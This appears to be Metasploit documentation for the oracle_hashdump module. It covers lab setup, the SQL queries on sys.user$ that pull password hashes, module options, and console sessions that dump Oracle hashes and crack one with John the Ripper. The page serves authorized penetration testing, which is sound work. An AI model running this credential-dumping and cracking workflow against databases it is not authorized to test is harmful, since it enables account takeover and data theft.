 ## Preparation: 6 steps

  1. Oracle DB XE (Express Edition) can be downloaded for free [here](https://www.oracle.com/technetwork/database/database-technologies/express-edition/downloads/index.html).
  2. Install Oracle Database and create a database. Versions 8i through 12c are supported.
  3. On your Oracle DB machine, make sure you can ping the DB server using the `tnsping [SID]` command. If `tnsping` is not in your path upon installation, you will have to locate it manually.
     * On a Windows machine, for Oracle 11g, `tnsping.exe` is located at: `oracle_install\app\oracle\product\<version, ie 11.2.0)\server\bin\tnsping.exe`.
     * On a Windows machine, for Oracle 12c and 18c, it is located at `%ORACLE_HOME%\bin\tnsping.exe`.

     After this command is run, if all is well, the output will look something like this (note the OK echoed at the end):

    ```
    C:> tnsping staticdb
    ...

    Used TNSNAMES adapter to resolve the alias
    Attempting to contact (DESCRIPTION = (ADDRESS = (PROTOCOL = TCP)(HOST = localhost)(PORT = 1521)) (CONNECT_DATA = (SERVER = DEDICATED) (SERVICE_NAME = staticdb)))
    OK (0 msec)
    ```

    If `tnsping` fails, make sure the listener is setup correctly.
    See [this Oracle doc](https://docs.oracle.com/cd/E11882_01/network.112/e41945/listenercfg.htm#NETAG294) for more information about its configuration.

  4. Make sure to create a user on the DB that has a known password, and sufficient privileges to select any table. This is necessary for getting the hashes.
  5. Test that the module's hash query works locally. Once your user is created with sufficient privileges, connect to the DB as the user, and proceed to run the following query
    * 12c: `SELECT name, spare4 FROM sys.user$ where password is not null and name <> \'ANONYMOUS\'`
    * pre-12c: `SELECT name, password FROM sys.user$ where password is not null and name<> \'ANONYMOUS\'`
  6. Set up your MSF environment to support Oracle. You need gem ruby-oci8, as well as Oracle Instant Client.
     [View the setup tutorial here](https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/how-to-get-oracle-support-working-with-kali-linux.html)
  7. Make sure you have a database connected to MSF (postgresql). This can be done through `msfdb` tool or through `db_connect` command in `msfconsole`.

## Verification Steps

  1. Start `msfconsole`
  2. Do: ```use auxiliary/scanner/oracle/oracle_hashdump.rb```
  3. Do: ```run```
  4. If Oracle DB version is supported, the query will be attempted to get the hashes. Hash table is built and then saved as credentials.
  5. You may view saved credentials with `creds` command. These are used for cracking by module `jtr_oracle_fast`.

## Options

### DBPASS
  The password to authenticate with. Change this from TIGER to the password of the privileged user created in step 4 of Preparation.

### DBUSER
  The username to authenticate with. Change this from SCOTT to the user you created who is granted privileges to select from the sys.user$ table

### RPORT
  The TNS port of the Oracle DB server. By default, Oracle uses port 1521. Double-check the port of your Oracle DB.

### SID
  The Service ID (of the database) to authenticate with. Change this to your SID (if you changed the SID from default upon installation).
  Default is `ORCL` (default Oracle install value) or `XE` for free edition.

## Scenarios

### Running Oracle 12c on a local Windows 10 machine, and msf on Ubuntu for Windows (same machine)

```
msf auxiliary(scanner/oracle/oracle_hashdump) > show options
Module options (auxiliary/scanner/oracle/oracle_hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DBPASS   hunter2          yes       The password to authenticate with.
   DBUSER   scott            yes       The username to authenticate with.
   RHOST    127.0.0.1        yes       The Oracle host.
   RHOSTS   127.0.0.1        yes       The target address range or CIDR identifier
   RPORT    1522             yes       The TNS port.
   SID      staticdb         yes       The sid to authenticate with.
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running 12c
[*] Hash table :
 Oracle Server Hashes
====================

 Username               Hash
 --------               ----
 ...
 SCOTT                  S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699
 ...

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/oracle/oracle_hashdump) > creds
Credentials
===========

host       origin     service            public  private                                                                                                                                                                                                                                                               realm  private_type        JtR Format
----       ------     -------            ------  -------
...                                                                                                                                                                                                                                                         -----  ------------        ----------
127.0.0.1  127.0.0.1  1522/tcp (oracle)  SCOTT   S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699         Nonreplayable hash  oracle12c
```

These hashes are then saved as credentials so that `jtr_oracle_fast` can crack them (using [John The Ripper "bleeding_jumbo"](https://github.com/magnumripper/JohnTheRipper)).

```
msf auxiliary(scanner/oracle/oracle_hashdump) > use auxiliary/analyze/jtr_oracle_fast
msf auxiliary(analyze/jtr_oracle_fast) > run
...
[*] Cracking oracle12c hashes in normal wordlist mode...
Using default input encoding: UTF-8
[*] Cracking oracle12c hashes in single mode...
Using default input encoding: UTF-8
[*] Cracked passwords this run:
[+] SCOTT:hunter2
...
```
### Oracle 18c (18.4 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
resource (oracle.rb)> run
[-] Version 18c is not currently supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Oracle 11g (11.2 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
msf auxiliary(scanner/oracle/oracle_hashdump) > set verbose true
verbose => true
msf auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running version 11g
[*] Hash table :
 Oracle Server Hashes
====================

 Username          Hash
 --------          ----
 APEX_040000       S:03D9B47D20C9A9EC3023177D80C0EE2D1DCEDA619215C2405177CEFFEE76
 APEX_PUBLIC_USER  S:E8D8CCD600CBCEA08ACB158A502C5DA711B00146404621BB2F83E8997246
 APPQOSSYS         S:4237CCB702887B049107EE6D13C312123F40E3F51208B2B70D6DA92E621D
 CTXSYS            S:3548FDA49F84F2F7ECE4635BA0FD714EC2446723074ED6167F1CD9B6EDFB
 DBSNMP            S:59354E99120C523F77232A8CCFDE5E780591FCE14109EEE2C86F4A9B4E8F
 DIP               S:1E4C37D0E8DC2E556D3C02A961ACEF1500B315D076BE13E578D1A28FC757
 FLOWS_FILES       S:A3657555975A9F7527C4B97637734D74465C592B9D231CA3DAB100ED5865
 HR                S:F437C1647EBCEB1D1FB4BB3D866953B4BF612B343944B899E061B361F31B
 MDSYS             S:F337C5D6300E3F8CDEDE0F2B2336415EAAE098A700A35E6731BF1370657E
 ORACLE_OCM        S:1575D1C89A1AACFE161ED788D2DC59CF6C57AE3B6CCC341D831AAF5BC447
 OUTLN             S:142AD444D8A63983FF69C77DBFD3E60947C14237AEC71031E24F5228D44C
 SYS               S:BFAF1ED5A8D39CC10D07DAF03A175C65198359874DAD92F081BE09B89162
 SYSTEM            S:D88BA08B353EC52E1EFD8433DF623773ACE3F81B7294BBC2E5C22CDD32F5
 XDB               S:88D6BE2B593143BD5AE5185C564826F9213E71361230D3360E36C3FF55D2
 XS$NULL           S:6C4F97FF654AE30BCD9BDBB3007EF952B5943F0A9ED491455E9FB185D8A1

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
